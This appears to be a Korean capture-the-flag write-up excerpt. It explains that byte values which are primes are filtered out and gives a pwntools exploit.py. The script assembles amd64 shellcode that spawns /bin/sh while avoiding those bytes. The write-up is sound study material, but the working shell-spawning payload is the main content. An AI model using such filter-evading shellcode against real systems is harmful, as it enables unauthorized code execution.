 필터링 되는 값들은 다음과 같습니다.
- `0x2 0x3 0x5 0x7 0xb 0xd 0x11 0x13 0x17 0x1d 0x1f 0x25 0x29 0x2b 0x2f 0x35 0x3b 0x3d 0x43 0x47 0x49 0x4f 0x53 0x59 0x61 0x65 0x67 0x6b 0x6d 0x71 0x7f 0x83 0x89 0x8b 0x95 0x97 0x9d 0xa3 0xa7 0xad 0xb3 0xb5 0xbf 0xc1 0xc5 0xc7 0xd3 0xdf 0xe3 0xe5 0xe9 0xef 0xf1 0xfb`

[shell-storm](https://shell-storm.org/shellcode/index.html)에 있는 Shellcode를 수정하여 exploit을 수행해주면 됩니다. 

exploit.py

```py
from pwn import *
import sympy
import time

context.arch = "amd64"

# 0x2 0x3 0x5 0x7 0xb 0xd 0x11 0x13 0x17 0x1d 0x1f 0x25 0x29 0x2b 0x2f 0x35 0x3b 0x3d 0x43 0x47 0x49 0x4f 0x53 0x59 0x61 0x65 0x67 0x6b 0x6d 0x71 0x7f 0x83 0x89 0x8b 0x95 0x97 0x9d 0xa3 0xa7 0xad 0xb3 0xb5 0xbf 0xc1 0xc5 0xc7 0xd3 0xdf 0xe3 0xe5 0xe9 0xef 0xf1 0xfb

payload = asm('''
xor rsi, rsi
push rsi

mov rcx, 0x68732e2e6e69622e
push rcx

inc byte ptr [rsp]
inc byte ptr [rsp+4]

push 0
inc byte ptr [rsp]
inc byte ptr [rsp]
inc byte ptr [rsp]
inc byte ptr [rsp]
inc byte ptr [rsp]
pop rsi
add byte ptr [rsp+rsi], 1

push rsp

pop rdi

xor rsi, rsi

push 58
add byte ptr [rsp], 1
pop rax
cdq
xor r12, r12
push r12
mov byte ptr [rsp], 0x0e
mov byte ptr [rsp+1], 0x04

inc byte ptr [rsp]
inc byte ptr [rsp+1]

call rsp
''')

print(payload)

# for i in range(0x1000):
#     if sympy.isprime(payload[i]):
#         print(f"Invalid shellcode at {i}: {payload[i]:#x}")
```